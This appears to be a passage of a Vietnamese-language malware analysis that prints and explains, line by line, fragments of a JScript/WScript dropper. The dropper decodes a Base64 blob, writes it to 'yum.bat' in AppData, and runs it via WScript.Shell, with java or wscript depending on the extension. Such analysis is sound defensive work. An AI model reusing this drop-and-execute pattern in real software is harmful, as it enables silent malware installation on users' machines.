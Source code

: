 ```
	} else {
		path = appdatadir + "\\" + path;
	}

	sugar.SaveToFile(path, 2);
	if (path.endsWith(".jar")) {
		wshShell.run("java -jar \"" + path + "\"");
	} else if (path.endsWith(".bat") || path.endsWith(".wsf")) {
		wshShell.run("wscript \"" + path + "\"");
	} else {
		wshShell.run("\"" + path + "\"");
	}
	} catch (err) {
		WScript.Echo(err.message);
	}
```

oke bắt đầu phân tích nào

Đầu tiên
```
var silver = WScript.CreateObject("Microsoft.XMLDOM");
var sinema = silver.createElement("tmp");
sinema.dataType = "bin.base64";
sinema.text = aso_ibora;
```
thì ta có thể thấy:
* var silver = WScript.CreateObject("Microsoft.XMLDOM");: Tạo đối tượng DOM XML.
* var sinema = silver.createElement("tmp");: Tạo phần tử <tmp>.
* sinema.dataType = "bin.base64";: Đặt loại dữ liệu là Base64.
* sinema.text = aso_ibora;: Gán chuỗi Base64 từ aso_ibora vào <tmp>.
    
> *Tóm lại nó sẽ tạo phần tử XML để nhúng dữ liệu nhị phân là chuỗi dữ liệu của biến **aso_ibora** trên, cũng như là ta có thể xác nhận chuỗi đó là đang được encode theo kiểu Base64.*

Tiếp theo:
```
var sugar = WScript.CreateObject("ADODB.Stream");
sugar.Type = 1;
sugar.Open();
sugar.Write(sinema.nodeTypedValue);
var wshShell = WScript.CreateObject("WScript.Shell");
var tempdir = wshShell.ExpandEnvironmentStrings("%temp%");
var appdatadir = wshShell.ExpandEnvironmentStrings("%appdata%");
var path = "yum.bat";
var is_temp = false;
```

* var sugar = WScript.CreateObject("ADODB.Stream");: Tạo đối tượng luồng (stream) ADODB.
* sugar.Type = 1;: Đặt loại luồng là nhị phân (binary).
* sugar.Open();: Mở luồng để ghi dữ liệu.
* sugar.Write(sinema.nodeTypedValue);: Ghi dữ liệu nhị phân từ *sinema.nodeTypedValue* vào luồng.
* var wshShell = WScript.CreateObject("WScript.Shell");: Tạo đối tượng Shell.
* var tempdir = wshShell.ExpandEnvironmentStrings("%temp%");: Lấy đường dẫn thư mục tạm (%temp%).
* var appdatadir = wshShell.ExpandEnvironmentStrings("%appdata%");: Lấy đường dẫn thư mục AppData (%appdata%).
* var path = "yum.bat";: Định nghĩa tên tệp là "yum.bat". 
